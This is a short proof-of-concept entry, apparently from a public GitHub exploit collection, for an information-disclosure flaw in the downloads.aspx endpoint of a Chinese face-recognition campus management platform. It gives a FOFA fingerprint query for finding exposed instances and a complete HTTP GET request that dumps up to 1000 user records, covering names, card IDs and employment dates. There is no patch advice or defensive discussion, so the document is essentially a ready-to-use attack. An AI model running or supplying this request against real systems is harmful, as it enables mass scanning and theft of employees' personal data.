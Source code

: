 ## 脸爱云一脸通智慧管理平台存在downloads.aspx信息泄露漏洞

## fofa
```
body="View/UserReserved/UserReservedTest.aspx"
```


## poc
```
GET /downloads.aspx?Ename=UserInfo&total=1000&jsonParam={%22rybh%22:%22%22,%22ryxm%22:%22%22,%22EngName%22:%22%22,%22groupname%22:%22%22,%22companyname%22:%22%22,%22bmmc%22:%22%22,%22ryzt%22:%22%22,%22rzstartime%22:%22%22,%22rzendtime%22:%22%22,%22lzstartime%22:%22%22,%22lzendtime%22:%22%22,%22zhiwu%22:%22%22,%22cardid%22:%22%22,%22rfzt%22:%22%22,%22klb%22:%22%22,%22sxstartime%22:%22%22,%22sxendtime%22:%22%22,%22khstartime%22:%22%22,%22khendtime%22:%22%22,%22rfoperator%22:%22%22,%22rfstartime%22:%22%22,%22rfendtime%22:%22%22,%22feat%22:%22%22} HTTP/1.1
Host: {{Hostname}}
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.198 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

![74708584771f740817aa7c34512d0b47](https://github.com/wy876/POC/assets/139549762/aaa40523-2d9f-4f5d-a2dd-f390bc038487)
